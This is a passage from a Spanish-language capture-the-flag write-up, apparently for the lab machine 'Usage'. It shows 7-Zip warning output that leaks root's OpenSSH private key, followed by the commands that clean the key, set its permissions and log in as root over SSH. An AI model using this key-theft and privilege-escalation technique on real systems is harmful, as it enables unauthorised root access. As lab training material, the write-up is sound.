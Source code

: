 ```bash
H2sfTWZeFDLGmqMhrqDdAAAACnJvb3RAdXNhZ2UBAgM=


WARNING: No more files
-----END OPENSSH PRIVATE KEY-----

2984 folders, 17994 files, 113888058 bytes (109 MiB)                         

Updating archive: /var/backups/project.zip

Items to compress: 20978

                                                                               
Files read from disk: 17994
Archive size: 54849975 bytes (53 MiB)

Scan WARNINGS for files and folders:

-----BEGIN OPENSSH PRIVATE KEY----- : No more files
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW : No more files
QyNTUxOQAAACC20mOr6LAHUMxon+edz07Q7B9rH01mXhQyxpqjIa6g3QAAAJAfwyJCH8Mi : No more files
QgAAAAtzc2gtZWQyNTUxOQAAACC20mOr6LAHUMxon+edz07Q7B9rH01mXhQyxpqjIa6g3Q : No more files
AAAEC63P+5DvKwuQtE4YOD4IEeqfSPszxqIL1Wx1IT31xsmrbSY6vosAdQzGif553PTtDs : No more files
H2sfTWZeFDLGmqMhrqDdAAAACnJvb3RAdXNhZ2UBAgM= : No more files
-----END OPENSSH PRIVATE KEY----- : No more files
----------------
Scan WARNINGS: 7
```

Copiaremos el contenido en nuestra máquina local en un archivo llamado `id_rsa`, el cual deberemos de tratar para eliminar los carácteres que no nos interesen.

Le daremos los permisos correspondientes para poder hacer uso de la clave privada y trataremos de acceder con el usuario `root`.

Finalmente, logramos obtener acceso al equipo a través del usuario `root` y la clave privada `id_rsa`sin necesidad de proporcionar credenciales. Por último, visualizamos el contenido de la flag **root.txt**.

```bash
❯ cat id_rsa
-----BEGIN OPENSSH PRIVATE KEY----- : No more files
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW : No more files
QyNTUxOQAAACC20mOr6LAHUMxon+edz07Q7B9rH01mXhQyxpqjIa6g3QAAAJAfwyJCH8Mi : No more files
QgAAAAtzc2gtZWQyNTUxOQAAACC20mOr6LAHUMxon+edz07Q7B9rH01mXhQyxpqjIa6g3Q : No more files
AAAEC63P+5DvKwuQtE4YOD4IEeqfSPszxqIL1Wx1IT31xsmrbSY6vosAdQzGif553PTtDs : No more files
H2sfTWZeFDLGmqMhrqDdAAAACnJvb3RAdXNhZ2UBAgM= : No more files
-----END OPENSSH PRIVATE KEY----- : No more files

❯ cat id_rsa | sed 's/ : No more files//g' | sponge id_rsa

❯ chmod 600 id_rsa

❯ ssh -i id_rsa root@usage.htb
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

  System information as of Mon Apr  8 01:17:46 PM UTC 2024

  System load:           1.9072265625
  Usage of /:            64.8% of 6.53GB
  Memory usage:          18%
```